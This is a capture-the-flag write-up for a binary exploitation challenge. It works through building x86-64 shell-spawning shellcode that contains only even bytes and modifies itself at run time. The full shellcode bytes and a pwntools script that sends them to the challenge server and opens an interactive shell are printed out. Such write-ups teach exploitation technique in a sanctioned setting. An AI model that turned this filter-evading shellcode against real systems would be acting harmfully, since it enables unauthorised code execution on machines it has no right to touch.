



# Two's Compliment
**Binary Exploitation (pwn) - 250**
Description:
```
Seven ate six

After seven ate six, it thought to itself, "After I ate nine my mouth felt numb, but this time it's even number".

nc host1.metaproblems.com 5480
```
# Table of Contents
1. [Discovery](#Discovery)
2. [Plagiarism is always easier](#Plagiarism)
3. [The road to even parity](#Road)
4. [It's always /bin/sh](#binsh)
5. [Back at cruising speed](#Cruising)
6. [There's no such thing as free lunch](#Lunch)
7. [Except 7's lunch](#Seven)
8. [TL;DR](#tldr)

## Discovery <a name="Discovery"></a>

This challenge gave us a single binary. Let's run it and see what we get:


*That's a little on the nose, isn't it?*

I tried entering "A" and it returns with "Bad Character found". If I enter "B", it segfaults.
Entering a string of As returns bad character, a string of Bs segfaults, Cs are bad characters, so on. At this point I put together that the program only accepts even bytes for input (as 'A' is `0x41`).

I wanted to double check my thoughts, so I opened up the challenge file in cutter (a radare2 and ghidra based decompiler), and sure enough, it did just that.

```c
undefined8 main(void)
{
    int32_t iVar1;
    int64_t iVar2;
    void *buf;
    void *addr;
    undefined8 var_4h;
    
    setvbuf(_reloc.stdout, 0, 2, 0);
    setvbuf(_reloc.stdin, 0, 2, 0);
    puts("What is your shellcode?");
    iVar2 = mmap(0x133713370000, 0x1000, 7, 0x32, 0xffffffff, 0); //Reserving memory for our shellcode
    if (iVar2 != 0x133713370000) {
        puts("mmap failed");
        exit(0xffffffff);
    }
    iVar1 = _len;
    if (_len < 0) {
        iVar1 = _len + 7;
    }
    var_4h._0_4_ = read(0, iVar2 + (int64_t)(iVar1 >> 3) * 8, 0x800); //Reading in our shellcode
    if (*(char *)(iVar2 + (int64_t)(int32_t)var_4h + (int64_t)_len + -1) == '\n') {
        var_4h._0_4_ = (int32_t)var_4h + -1;
        *(undefined *)(iVar2 + (int64_t)_len + (int64_t)(int32_t)var_4h) = 0;
    } //New line char removal
    iVar1 = check((void *)(iVar2 + _len), (int32_t)var_4h - 1); //parity checking
    if (iVar1 != 0) {
        puts("Bad Character found");
        exit(0xffffffff);
    }
    (*(code *)(_len + iVar2))(); //Runs our shellcode
    return 0;
}

undefined8 check(void *arg1, uint32_t arg2)
{
    int64_t iVar1;
    uint32_t var_ch;
    void *var_8h;
    
    var_ch = arg2;
    do {
        if ((int32_t)var_ch < 0) {
            return 0;
        }
        iVar1 = (int64_t)(int32_t)var_ch;
        var_ch = var_ch - 1;
    } while ((*(uint8_t *)((int64_t)arg1 + iVar1) & 1) == 0); //Parity check
    return 1;
}
```

`check()` reads in every byte, ands it with 1, if it returns true it returns 1, and `main` will reject it if check returns 1.

The only weird thing, if you've never seen this (and I've never seen this until now), is the `(*(code *)(_len + iVar2))();` line. This basically casts the location of our shell code `_len+iVar2` as a function pointer `(code*)` then calling it `();`. With better Ghidra notation this would look better, but I didn't see any reason to continue further.

#### Making a test binary 
Because the binary uses a specific address, I don't trust my own C skills, I copied the binary, opened it up in a hex editor, and turned the immediate `1` into a `0` on the and statement in `check()` so that any shellcode could run, as I can pretty easily tell if it has odd bytes or not. I know I have a working shellcode if, you know, I get a shell.

## Plagiarism is always easier <a name="Plagiarism"></a>
Now, I had to consider a plan of attack. Clearly, no standard shellcode would just *work* on this binary. I looked up what I could about esoteric shellcodes, and given the hint in this challenge, **self-modifying shellcodes.** I found [This paper](https://www.exploit-db.com/docs/english/13127-writing-self-modifying-code-andutilizing-advanced-assembly-techniques.pdf) on writing self-modifying shellcode to restrict to the alphanumeric byteset. It brought the question of using someone else's shellcode and modifying it down, versus designing your own from the ground up. They went with the former, and so will I. However, I found [another page](https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html) that had a 22 byte shellcode:
```asm
xor esi, esi
push rsi
mov rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
imul esi
mov al, 0x3b
syscall
```

The hex literal (the line of bytes we send), looks like this:
`[\x31]\xF6\x56\x48[\xBB\x2F]\x62[\x69]\x6E[\x2F\x2F\x73]\x68[\x53]\x54[\x5F\xF7]\xEE\xB0[\x3B\x0F\x05]`
I've marked odd bytes in brackets. We have 13 bytes that we need to whittle down to 0.

I think at this point, I should mention: **I had no idea how to code in x86-64 assembly**. I've coded in MIPS for a computer architecture class, but besides that I don't really fully understand the x64 convention.

Besides that, It's time to discuss what this code does, so we can make sure we replicate the same steps.


1. Setting the `rsi` register to 0 and pushing it to the stack
```
xor esi, esi
push rsi
```
2. Moving `/bin//sh` into the `rbx` register, and pushing it to the stack
```
mov rbx, 0x68732f2f6e69622f
push rbx
```
3. Move the stack address to the `rdi` register. This is the `char*` pointer to our `'/bin//sh'` string.
```
push rsp
pop rdi
```
4. I didn't really know what this did at first glance, but looking at the documentation, imul stores its result into `dx:ax` register range, or `rdx` and `rax`, which, since we set `esi` to 0, this is a cheap way to set both registers to 0.
```
imul esi
```
5. Call `execve('/bin/sh', 0, 0)`. `0x3b` is the ID for the system call of `execve()`. The calling convention uses `rdi`, `rsi` and `rdx` in that order, which we've set to the string pointer, 0 and 0, respectively.
```
mov al, 0x3b
syscall
```

So with a bit more familiarity at hand, it's time to work at every odd byte in this shellcode.

## The road to even parity <a name="Road"></a>

My plan was to avoid self-modification for as long as possible, just because my skills at x86-64 were already weak and I'm not quite sure I was going to be able to do this challenge.

To see what bytes assembled to what, I used [this online tool](https://defuse.ca/online-x86-assembler.htm#disassembly), since it's more or less designed for shellcode, and avoids dealing with labels or anything fancy to actually make a working program.

To start, `xor esi esi` compiles to `[\x31]\xF6`. Reading that original paper about alphanumeric shellcode, they used a different trick to get `0` into the `esi` register. Lucky for me, that same trick just so happened to use only even bytes. So without much thought, I replaced that in my shellcode:
```
push 0x30
pop rsi
xorb sil, 0x30
```
This compiles to `\x6A\x30\x5E\x40\x80\xF6\x30`. All this does is write 0x30 to the stack (could be any even byte, but this paper was trying to use alphanumeric characters only). Puts it into `rsi`, then xors the single byte with `0x30` again, setting the whole register to `0`.

Next, we have this move and push command:
```
mov rbx, 0x68732f2f6e69622f
push rbx
```

This compiles to `\x48[\xBB\x2F]\x62[\x69]\x6E[\x2F\x2F\x73]\x68[\x53]`. After messing around and seeing what bits affect the `mov` command, I realized that each of the registers have their own numeric ID, and that registers `rbx` and `rdx` and so on have odd IDs. So, I saw no harm, and simply modified the register to `rax` instead, as it made these calls have even bytes. That code compiled to `\x48\xB8[\x2F]\x62[\x69]\x6E[\x2F\x2F\x73]\x68\x50`. So an easy fix of 2 odd bytes.

An easy fix I could see was actually an issue of using premade shellcode for different goals. The original shellcode was made under the rules of shellcode golf, one of those requirements being that there be no null bytes in the shellcode (so that string methods like `strlen()` read the entire input). However, this binary *runs* our shellcode for us. We can have nullbytes. The `/` character is `0x2f` and this code uses `'/bin//sh'` to make it fit in 8 bytes. So we modify it to `'/bin/sh\0'` and the input bytes would compile to `[\x2F]\x62[\x69]\x6E[\x2F\x73]\x68\x00` saving us a byte of work.

## It's always /bin/sh <a name="binsh"></a>

We're approaching the point where we're going to have to make some substantial live corrections if we want to shellcode to be accepted. I had to figure out someway to modify the bytes in `'/bin/sh'`. However, ~~most~~ all 64, 32 *and* 16 bit commands for `add`, `sub`, `inc`, `dec`, `xor`, `and`, `or` have an odd byte to signify the size. After a fair deal of testing I found out that the `inc` command for the last byte registers (i.e. `al`, `sil`, etc.), don't have that odd indicator byte. However, much to my dismay,  that means I would somehow need to construct the *entire* string with these last byte operations. I thought I could use the logical shift left bytes, and it would feed into the higher bits, but shifting on a 1 byte register keeps it local to that 1 byte. 

Luckily, we can push values on to the stack a couple bytes at a time (sadly, not 1 byte a time), and then pop the whole string into our register. So, we can load a couple bytes into the register, increment them from an even pairity to and odd parity, then push it onto the stack.

 Being aware of endianess, we start by moving `0x0068` into `ax` and pushing it onto the stack. The next part of the string we have to push is `0x722e` (from `0x732f`)... well crap. We need to increment the `0x72` byte as well. The alphanumeric shellcode paper comes in handy one more time:

 Consider how our stack operates:
 
 We push 0x0068 on:

 
 `00 00 00 00 00 00 00 68`

Then, we push 0x722e on:

`00 00 00 00 00 68 72 2e`

If we were to *increment* our stack pointer, we would now be pointing to `0x72`!

`00 00 00 00 00 00 68 72`

If we pop this word off the stack (a word is a 2 byte value), then our register stores `0x6872` which we can increment the lower byte and pop back onto our stack!

`00 00 00 00 00 00 68 73`

Annoyingly, this means that we have to do this *a lot* as our odd bytes are close together. Also, for my own sanity, I push just the to-be-odd byte and a null byte, so I can better keep track of what is the important data.

So that very nice and clean `mov` and `push` command becomes this monster:

```
mov ax, 0x0068
push ax
mov ax, 0x7200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x2e00
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x6e68
inc al
push ax
mov ax, 0x622e
inc al
push ax
```

`ax` is the lower 2 byte register for `rax`. 
If I need to increment a single byte on its own (i.e. it's in the upper byte), 
- then I push it onto the stack, `mov ax, 0x7200; push ax`
- increment the stack pointer, `inc spl` 
- pop it back into the register, `pop ax` 
- increment it, `inc al` 
- then push it back onto the stack. `push ax` 
Phew! Apparently, If you shake bytes enough eventually they change!

This compiles into 
```
\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50
```
Which has no odd bytes! We've finally covered `/bin/sh`

A lot of getting this to work was using `gdb` with `gef` enabled. It's easier to view the stack and see what instructions are getting run and what they do.

## Back at cruising speed <a name="Cruising"></a>

There's a few more changes we can make to that original shellcode with relative ease.

That `imul esi` compiles to `[\xF7]\xEE`. This is just a really elegant way to set a couple registers to 0. Luckily, we can reuse that same `xor` trick on the registers it affects (`rax` and `rdx`):
```
push 0x30
pop rax
xorb al, 0x30
push 0x30
pop rdx
xorb dl, 0x30
```
This compiles to `\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30`
Are there better ways to do this? Probably but I can't be bothered. If it works, it works.

Finally, `mov al, 0x3b` compiles to `\xB0[\x3B]`. This loads the ID for the `execve()` syscall into the first byte of `rax`. We can pretty simply use `0x3a` instead and increment it:
```
mov al, 0x3a
inc al
```
This compiles to `\xB0\x3A\xFE\xC0`.

***What's left?***
We have that `pop rdi` thats responsible for `[\x53]`, and the `syscall` that compiles `[\x0F\x05]`. Sadly, my testing pretty much showed that any use of `rdi` or its smaller registers will result in an odd byte, and there wasn't really an easy way for me to use this register. On top of that, `syscall` is mandatory, so there's no way around that one. 

So we're back on the self modifying train. But memory is still memory. All we need is the address of where the shellcode is, and then we should know how long it is by the time we finish designing it, so it should be that hard to modify bytes. Good thing for us, it was stored using `mmap()` at address — *What?* Because my work is never over, its stored at address `0x133713370000`. Which means we need to write 4 more odd bytes into our shell code.

## There's no such thing as free lunch <a name="Lunch"></a>

So we need to write the address `0x133713370000` into a register and then access the memory inside of it. We'll do the same trick as we did for /bin/sh, and surely enough, it's not at all clean or elegant. Which again, is *fine*, we just need it to **work**:
```
mov ax, 0x0000
push ax
mov ax, 0x1200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x3600
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x1200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x3600
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x???? ;we don't know where our shellcode will land just yet!
push ax
pop rax
```

This compiles to:
```
\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x??\x??\x66\x50\x58
```
Which gives us the end result of having our first point of interest stored in the register `rax`.

Now, we can increment the memory at the address, (first, the `pop rdi` instruction), move the pointer to somewhere else, and increment that memory too (the `syscall` instruction).

```
incb [rax] ;brackets dereference the pointer
mov al, 0x?? ;again, this is position dependent until the final result.
incb [rax]
inc al
incb [rax]
```

## Except 7's lunch <a name="Seven"></a>

Finally, we can put it all together:

```
push 0x30
pop rsi
xorb sil, 0x30
push rsi
mov ax, 0x0068
push ax
mov ax, 0x7200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x2e00
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x6e68
inc al
push ax
mov ax, 0x622e
inc al
push ax
push rsp
mov ax, 0x0000
push ax
mov ax, 0x1200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x3600
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x1200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x3600
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x0090
push ax
pop rax
incb [rax]
mov al, 0xa0
incb [rax]
inc al
incb [rax]
pop rdi ; 5F
push 0x30
pop rax
xorb al, 0x30
push 0x30
pop rdx
xorb dl, 0x30
mov al, 0x3a
inc al
syscall ;0f 05
```
We still have the two instructions that produced the odd bytes. This compiles to:

```
\x6A\x30\x5E\x40\x80\xF6\x30\x56\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50\x54\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x90\x00\x66\x50\x58\xFE\x00\xB0\xA0\xFE\x00\xFE\xC0\xFE\x00[\x5F]\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30\xB0\x3A\xFE\xC0[\x0F\x05]
```
However, our shell code will increment those bytes, so I manually decremented them before I sent it:
```
\x6A\x30\x5E\x40\x80\xF6\x30\x56\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50\x54\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x90\x00\x66\x50\x58\xFE\x00\xB0\xA0\xFE\x00\xFE\xC0\xFE\x00\x5E\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30\xB0\x3A\xFE\xC0\x0E\x04
```
This string literal is the final product. 162 bytes in total. I could've designed code with the decremented bytes in place, but it loses meaning when trying to read it.

Now, we develop our pwntools script:

```py
from pwn import *
conn = remote("host1.metaproblems.com", 5480) #connect to the host
sc = b'\x6A\x30\x5E\x40\x80\xF6\x30\x56\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50\x54\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x90\x00\x66\x50\x58\xFE\x00\xB0\xA0\xFE\x00\xFE\xC0\xFE\x00\x5E\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30\xB0\x3A\xFE\xC0\x0E\x04'
conn.recvline() #recv "enter your shellcode line"
conn.sendline(sc) #send shell
conn.interactive() #go interactive to cat flag
```

We run it, get a shell on the host machine, cat the flag to complete the challenge!

`MetaCTF{eVEn_evEN_8y7e5_c4N_re4cH_0Dd_Re9157eRs}`

As a little aside, here's the self modification taking place in gdb/gef:




We can see that our little modification changed the `pop rsi` to `pop rdi`

Not too shabby for never coding in x64 before! It was a cute little chal, I'll give them that :)

## If I had more time, I would've written a shorter shellcode (TL;DR) <a name="tldr"></a>

The challenge binary runs the shellcode for us, but enforces that every byte is an even byte (0th bit is 0). I wrote new shell code based on an established shellcode to circumvent this restriction, eventually using shellcode self modification to get the syscall and other important instructions to be correct before running them. There exists a way to get the current address of the shellcode regardless of the binary, however, our shellcode was stored at a static location.

```py
shellcode = b'\x6A\x30\x5E\x40\x80\xF6\x30\x56\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50\x54\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x90\x00\x66\x50\x58\xFE\x00\xB0\xA0\xFE\x00\xFE\xC0\xFE\x00\x5E\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30\xB0\x3A\xFE\xC0\x0E\x04
```
